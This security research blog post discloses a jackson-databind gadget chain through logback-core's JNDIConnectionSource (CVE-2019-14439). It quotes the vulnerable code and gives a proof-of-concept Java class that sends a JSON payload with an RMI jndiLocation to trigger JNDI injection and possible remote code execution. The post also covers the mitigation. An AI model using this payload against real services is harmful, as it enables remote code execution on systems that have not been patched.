 ```yaml
---
layout: post
title: "Attacking Unmarshallers :: JNDI Injection using Getter Based Deserialization Gadgets"
date: 2019-08-07 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">I know you have pwned deserialization of unstrusted data bugs before (if you haven't what the hell, they are fun!), but have you pwned an entire REST framework due to a misconfigured marshaller? In this short blog post, we will reveal some quick research that was done based upon the excellent work perform by [Doyensec](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, I share another gadget chain for FasterXML's jackson-databind using the common logback-core library and not requiring any other libraries. This was a bug collison with [badcode of Knownsec 404 Team](https://twitter.com/80vul/status/1156766341946232832) and marked as CVE-2019-14439.*</p>

## Analysis

<p class="cn" markdown="1">During a quick audit of the logback-core library, I found a gadget chain for the ch.qos.logback.core.db.JNDIConnectionSource class literally the same package as the DriverManagerConnectionSource class</p>

{% include image.html
            img="assets/images/attacking-unmarshallers-jndi-injection-using-getter-based-deserialization/JNDIConnectionSource.png#2"
            title="Next to the DriverManagerConnectionSource class"
            caption="Next to the DriverManagerConnectionSource class"
            style="width:30%;height:30%" %}

<p class="cn" markdown="1">The setter for the class looks pretty standard for `jndiLocation`</p>

```java
/*  90 */   public void setJndiLocation(String jndiLocation) { this.jndiLocation = jndiLocation; }
```

<p class="cn" markdown="1">However, we trigger the `getConnection` method via `ObjectMapper.writeValueAsString` which is used to return JSON objects back to a user via a REST endpoint, we reach the following code:</p>

```java
/*     */   public Connection getConnection() throws SQLException {
/*  54 */     Connection conn = null;
/*     */     try {
/*  56 */       if (this.dataSource == null) {
/*  57 */         this.dataSource = lookupDataSource();         // 1
/*     */       }
```

<p class="cn" markdown="1">So if the dataSource property is not set, the code calls `JNDIConnectionSource.lookupDataSource` at *[1]*</p>

```java
/*     */   private DataSource lookupDataSource() throws NamingException, SQLException {
/*  94 */     addInfo("Looking up [" + this.jndiLocation + "] in JNDI");
/*     */     
/*  96 */     Context initialContext = new InitialContext();                    // 2
/*  97 */     Object obj = initialContext.lookup(this.jndiLocation);            // 3
/*     */ 
/*     */ 
/*     */     
/* 101 */     DataSource ds = (DataSource)obj;
/*     */     
/* 103 */     if (ds == null) {
/* 104 */       throw new SQLException("Failed to obtain data source from JNDI location " + this.jndiLocation);
/*     */     }
/* 106 */     return ds;
/*     */   }
```

<p class="cn" markdown="1">At *[2]* the code gets an instance of the InitialContext class and at *[3]* the code calls `InitialContext.lookup` using the attacker controlled `jndiLocation` property.</p>

<p class="cn" markdown="1">In a context dependant attack, where default typing is enabled for jackson-databind, this can result in JNDI Injection vulnerability.</p>

```java
import java.io.IOException;
import com.fasterxml.jackson.core.JsonParseException;
import com.fasterxml.jackson.databind.JsonMappingException;
import com.fasterxml.jackson.databind.ObjectMapper;

public class JacksonTest {
    public static void main(String[] args) throws JsonParseException, JsonMappingException, IOException {
        
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();

        StringBuilder d = new StringBuilder();
        d.append("[");
        d.append("\"ch.qos.logback.core.db.JNDIConnectionSource\"");
        d.append(",");
        d.append("{");
        d.append("\"jndiLocation\"");
        d.append(":");
        d.append("\"rmi://127.0.0.1:1097/rce\"");       // payload
        d.append("}");
        d.append("]");
 
        Object obj = objectMapper.readValue(d.toString(), java.lang.Object.class);          // trigger getters
        objectMapper.writeValueAsString(obj);                                               // trigger setters
    }
}
```

<p class="cn" markdown="1">There are multiple ways to achieve remote code execution via JNDI injection on older versions of Java using either class loading or attacking the Distrubuted Garbage Collection (DGC) for deserialization of untrusted data, techniques which are all taught in [Full Stack Web Attack](/training).</p> 

## Conclusion

<p class="cn" markdown="1">Getter based deserialization attacks are something to watch out for and can be mitigated by not using default typing. This is not a vulnerability to worry about since it has been patched and requires specific version of java to exploit.</p>

<p class="cn" markdown="1">FasterXML continue to block individual classes and whilst I see the reasoning behind it, it makes for a cat and mouse game between attackers and defenders and I don't think that is the right approach.</p>

## References

<div markdown="1" class="cn">
- [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [https://github.com/FasterXML/jackson-databind/issues/2389](https://github.com/FasterXML/jackson-databind/issues/2389)
</div>
